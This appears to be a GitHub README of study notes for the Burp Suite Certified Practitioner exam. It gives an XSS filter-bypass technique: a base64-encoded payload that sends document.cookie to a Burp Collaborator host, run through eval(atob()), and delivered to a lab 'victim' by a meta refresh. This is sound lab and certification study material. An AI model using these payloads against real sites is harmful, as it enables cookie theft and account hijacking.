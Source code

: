 # <img src="https://icons.iconarchive.com/icons/goescat/macaron/1024/burp-suite-icon.png" width=25> BSCP Methodology

## Table of Contents
* [Useful Burp extensions](https://github.com/dhmosfunk/BSCP/blob/main/README.md#useful-burp-extensions-some-of-them-requires-burpsuite-pro)
* [Cross-Site Scripting Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#cross-site-scripting-section)
   * [Bypass restrictions method 1](https://github.com/dhmosfunk/BSCP/blob/main/README.md#bypass-restrictions-method-1)
* Exploit Server Section
  * Send exploit to victim (Reflected XSS in search bar)
* SQL Injection Section

## Useful Burp extensions (some of them requires burpsuite pro)
- Hackvertor
- Copy As Python-Requests
- Java Deserialization Scanner | [yserial.jar](https://github.com/frohoff/ysoserial) for manual exploitation<b>(prefer because sometime this extension it doesn't work as it should)</b>
- HTTP Request Smuggler


## Cross-Site Scripting Section
You can find an injection point with some payloads from this repository - [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

### Bypass restrictions method 1
Sometimes we found a XSS injection point but with some keyword restrictions, so we have to bypass these restrictions with some techniques like below.
1. Generate the base64 payload

```bash
echo -n "document.location = 'http://<BURP-COLLABORATOR.NET>/?cookie='+document.cookie" |base64
```

2. Insert the base64 payload into atob function
```javascript
eval(atob("BASE64-PAYLOAD"))
<script>eval(atob("BASE64-PAYLOAD"))</script>
```

## Exploit Server Section
#### Send exploit to victim (Reflected XSS in search bar)
With <b>`<meta>`</b> html tag we can redirect the "victim" to our javascript injected search query.
```html
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?search=injection_here' />

<!-- ALL TOGETHER BELOW-->
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?SearchTerm=aa","fd8xsw5l":eval(atob("BASE64-PAYLOAD"))}//' />
```

## SQL Injection Section
